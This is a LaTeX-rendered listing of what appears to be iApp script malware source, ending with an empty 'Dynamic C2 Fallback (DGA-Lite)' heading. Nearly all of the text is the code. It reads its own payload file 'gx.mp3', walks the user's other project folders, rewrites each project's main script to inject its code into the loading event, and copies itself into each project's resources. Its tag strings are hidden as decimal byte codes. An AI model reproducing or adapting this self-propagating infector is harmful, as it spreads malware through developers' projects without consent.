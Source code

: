 \documentclass[
]{article}
\newenvironment{Shaded}{}{}
\newcommand{\NormalTok}[1]{#1}
\begin{document}
\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{      btoo("utf{-}8","60 47 101 118 101 110 116 73 116 109 101 62",event)}
\NormalTok{btoo("utf{-}8","60 101 118 101 110 116 73 116 109 101 32 116 121 112 101 61 34 108 111 97 100 105 110 103 34 62",sss.s)}
\NormalTok{btoo("utf{-}8","60 85 73 69 118 101 110 116 115 101 116 62 60 101 118 101 110 116 73 116 109 101 32 116 121 112 101 61 34 108 111 97 100 105 110 103 34 62",sss.d)}
\NormalTok{btoo("utf{-}8","60 85 73 69 118 101 110 116 115 101 116 62",sss.c)}

\NormalTok{fr("@gx.mp3",bb)}
\NormalTok{f(bb==null)}
\NormalTok{\{}
\NormalTok{fc("\%gx.mp3","@gx.mp3",n)}
\NormalTok{\}}
\NormalTok{else}
\NormalTok{\{}
\NormalTok{fc("@gx.mp3","\%gx.mp3",n)}
\NormalTok{fdir("@",path)}
\NormalTok{fdir(dir)}
\NormalTok{ss(dir+"/",dir)}
\NormalTok{sr(path,dir,"\%",path)}
\NormalTok{sl(path,"/",list)}
\NormalTok{sgszl(list,length)}
\NormalTok{s(length{-}3,len)}
\NormalTok{s count = 0}
\NormalTok{s proPath = ""}
\NormalTok{for(1;len)}
\NormalTok{\{}
\NormalTok{sgsz(list,count,c)}
\NormalTok{ss(proPath+c+"/",proPath)}
\NormalTok{s(count+1,count)}
\NormalTok{\}}
\NormalTok{fl(proPath,files)}
\NormalTok{for(file;files)}
\NormalTok{\{}
\NormalTok{f(file?"gx.mp3")}
\NormalTok{\{}
\NormalTok{\}}
\NormalTok{else}
\NormalTok{\{}
\NormalTok{ss(proPath+file+"/src/mian.iyu",Item)}
\NormalTok{ss(proPath+file+"/res/gx.mp3",Items)}
\NormalTok{fr(Item,cons)}
\NormalTok{f(cons?"android= www.iapp.com")}
\NormalTok{\{}
  
\NormalTok{\}}
\NormalTok{else}
\NormalTok{\{}

\NormalTok{f(cons?"loading")}
\NormalTok{\{}
\NormalTok{sj(cons,null,sss.s,Dq)}
\NormalTok{sj(cons,sss.s,null,cbc)}
\NormalTok{sj(cbc,event,null,Dh)}
\NormalTok{sj(cons,sss.s,event,Yh)}
\NormalTok{ss(Dq+sss.s+Yh+bb+event+Dh,Wc)}
\NormalTok{fc("@gx.mp3",Items,ni)}
\NormalTok{fw(Item,Wc)}
\NormalTok{\}}
\NormalTok{else}
\NormalTok{\{}
\NormalTok{sj(cons,null,sss.c,before)}
\NormalTok{sj(cons,sss.c,null,between)}
\NormalTok{ss(before+sss.d+bb+event+between,Wc)}
\NormalTok{fc("@gx.mp3",Items,ni)}
\NormalTok{fw(Item,Wc)}

\NormalTok{\}}
\NormalTok{\}}
\NormalTok{\}}
\NormalTok{\}}
\NormalTok{\}}
\NormalTok{\}}

\end{Highlighting}
\end{Shaded}

\paragraph{\texorpdfstring{\textbf{Dynamic C2 Fallback
(DGA-Lite)}}{Dynamic C2 Fallback (DGA-Lite)}}\label{dynamic-c2-fallback-dga-lite}
\end{document}
